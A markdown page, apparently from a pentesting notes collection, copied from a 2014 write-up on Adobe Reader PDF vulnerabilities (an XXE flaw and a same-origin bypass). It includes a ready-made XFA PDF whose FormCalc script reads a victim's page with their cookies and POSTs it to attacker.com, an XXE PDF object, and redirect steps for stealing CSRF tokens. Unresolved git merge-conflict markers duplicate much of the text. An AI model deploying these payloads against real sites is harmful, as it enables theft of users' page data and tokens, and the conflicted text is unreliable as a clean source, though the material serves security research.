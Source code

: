 # PDF Upload - XXE and CORS bypass

### Content copied from [https://insert-script.blogspot.com/2014/12/multiple-pdf-vulnerabilites-text-and.html](https://insert-script.blogspot.com/2014/12/multiple-pdf-vulnerabilites-text-and.html)

<<<<<<< HEAD
## Javascript function in Reader can be used to read data from external entities \(CVE-2014-8452\)

Status: Fixed  
Reality: Not Fixed

This one is about a simple XXE I discovered.  
I read the paper "Polyglots: Crossing Origins by Crossing Formats", where they discussed a vulnerability in  
XMLData.parse. It was possible to use external entities and reference them.  
I read the specification and it turns out there are more functions than "parse" to read XML.  
I created a simple xml file, which references an url from the same domain and parsed it with loadXML.  
=======
### Javascript function in Reader can be used to read data from external entities (CVE-2014-8452)

Status: Fixed\
Reality: Not Fixed\
\
This one is about a simple XXE I discovered.\
I read the paper "Polyglots: Crossing Origins by Crossing Formats", where they discussed a vulnerability in\
XMLData.parse. It was possible to use external entities and reference them.\
I read the specification and it turns out there are more functions than "parse" to read XML.\
I created a simple xml file, which references an url from the same domain and parsed it with loadXML.\
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
It worked:

![](https://4.bp.blogspot.com/-is4Q5hSZk-Y/VIwdzdAckWI/AAAAAAAAACI/OAzBs9Q-T50/s1600/xxe.png)

```
7 0 obj
<<
 /Type /Action
/S /JavaScript
/JS (
var cXMLDoc = '<?xml version="1.0" encoding="ISO-8859-1"?><foo>muh</foo>'
var cXMLDoc2 = '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ENTITY aaaa SYSTEM "http://example.com">]><ab>&aaaa;</ab>'
xml = XMLData.parse(cXMLDoc,false);
xml.loadXML(cXMLDoc2,false,true);
)
>>
endobj
```

<<<<<<< HEAD
The Impact is limited because  
o\) it is limited to same origin  
o\) HTML Pages break the xml  
o\) Dynamic Entities are not supported  
o\) I had the idea to use a utf-16 xml to avoid breaking the xml structure, but I it didn't work.

But it still can be used to read JSON.

## Same origin policy bypass in Reader \(CVE-2014-8453\)

Status: fixed  
Reality: fixed but same origin still vulnerable!

In my opinion this is the most powerful vulnerability. Even without the Origin Bypass it shows you  
how powerful/terrifying PDF can be.  
Many people know that PDF supports a scripting language called Javascript but there is another one.  
It is mentioned in the specification for XFA, a file type also supported by the adobe reader.  
It is called formcalc and it not that powerful. It is used for simple math calculation. But in the adobe specification  
there are three additional functions: 'GET','POST' and 'PUT'. Yes, their names speak for themselves.  
'GET' has one parameter: an url. It will use the browser \(YEAH COOKIES\) to retrieve the url and return the content of it.  
We can then use 'POST' to send the return content to our own server:

var content = GET\("myfriends.php"\);  
Post\("[http://attacker.com",content\](http://attacker.com",content\)\);

These functions are same origin, so a website needs to allow us to upload a PDF. Thats not that unrealistic for  
most websites. Attacker.com is not same origin, so you need to setup a crossdomain.xml, as usual with Adobe products.

To sum up: This is not a bug, this is a feature. As soon as you are allowed to upload a PDF on a website,  
you can access the website in the context of the user, who is viewing the PDF. Because the requests are issued  
by the browser, cookies are sent too. You can also use it to break any CSRF Protection by reading the tokens.

```text
=======
\
The Impact is limited because\
 o) it is limited to same origin\
 o) HTML Pages break the xml\
 o) Dynamic Entities are not supported\
 o) I had the idea to use a utf-16 xml to avoid breaking the xml structure, but I it didn't work.\
\
But it still can be used to read JSON.

### Same origin policy bypass in Reader (CVE-2014-8453)

Status: fixed\
Reality: fixed but same origin still vulnerable!\
\
In my opinion this is the most powerful vulnerability. Even without the Origin Bypass it shows you\
how powerful/terrifying PDF can be.\
Many people know that PDF supports a scripting language called Javascript but there is another one.\
It is mentioned in the specification for XFA, a file type also supported by the adobe reader.\
It is called formcalc and it not that powerful. It is used for simple math calculation. But in the adobe specification\
there are three additional functions: 'GET','POST' and 'PUT'. Yes, their names speak for themselves.\
'GET' has one parameter: an url. It will use the browser (YEAH COOKIES) to retrieve the url and return the content of it.\
We can then use 'POST' to send the return content to our own server:\
\
var content = GET("myfriends.php");\
Post("http://attacker.com",content);\
\
These functions are same origin, so a website needs to allow us to upload a PDF. Thats not that unrealistic for\
most websites. Attacker.com is not same origin, so you need to setup a crossdomain.xml, as usual with Adobe products.\
\
To sum up: This is not a bug, this is a feature. As soon as you are allowed to upload a PDF on a website,\
you can access the website in the context of the user, who is viewing the PDF. Because the requests are issued\
by the browser, cookies are sent too. You can also use it to break any CSRF Protection by reading the tokens.

```

>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
% a PDF file using an XFA
% most whitespace can be removed (truncated to 570 bytes or so...)
% Ange Albertini BSD Licence 2012

% modified by insertscript

%PDF-1. % can be truncated to %PDF-\0

1 0 obj <<>>
stream
<xdp:xdp xmlns:xdp="http://ns.adobe.com/xdp/">
<config><present><pdf>
    <interactive>1</interactive>
</pdf></present></config>
<template>
    <subform name="_">
        <pageSet/>
        <field id="Hello World!">
            <event activity="initialize">
                <script contentType='application/x-formcalc'>
     var content = GET("myfriends.php");
                   Post("http://attacker.com",content);
                </script>
            </event>
        </field>
    </subform>
</template>
</xdp:xdp>
endstream
endobj

trailer <<
    /Root <<
        /AcroForm <<
            /Fields [<<
                /T (0)
                /Kids [<<
                    /Subtype /Widget
                    /Rect []
                    /T ()
                    /FT /Btn
                >>]
            >>]
            /XFA 1 0 R
        >>
        /Pages <<>>
    >>
>>
```

<<<<<<< HEAD
After I found these functions, I found a same origin policy bypass. This makes it possible to use a victim browser  
as a proxy \(@beef still working on the module^^\)

The bypass is really simple:

1. User A loads evil.pdf from [http://attacker.com/evil.pdf](http://attacker.com/evil.pdf)  
2. Evil.pdf uses formcalc GET to read [http://attacker.com/redirect.php](http://attacker.com/redirect.php)  
3. redirect.php redirects with 301 to [http://facebook.com](http://facebook.com)  
4. Adobe reader will follow and read the response without looking for a crossdomain.xml.  
5. evil.pdf sends the content retrieved via POST to [http://attacker.com/log.php](http://attacker.com/log.php)
=======
\
After I found these functions, I found a same origin policy bypass. This makes it possible to use a victim browser\
as a proxy (@beef still working on the module^^)\
\
The bypass is really simple:\
\
1\. User A loads evil.pdf from http://attacker.com/evil.pdf\
2\. Evil.pdf uses formcalc GET to read http://attacker.com/redirect.php\
3\. redirect.php redirects with 301 to http://facebook.com\
4\. Adobe reader will follow and read the response without looking for a crossdomain.xml.\
5\. evil.pdf sends the content retrieved via POST to http://attacker.com/log.php
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

Note that using this technique you can steal the CRSF tokens of a page and abuse CSRF vulns.

This simple bypass is fixed now. I hope they going to implement a dialog warning for same origin requests too.
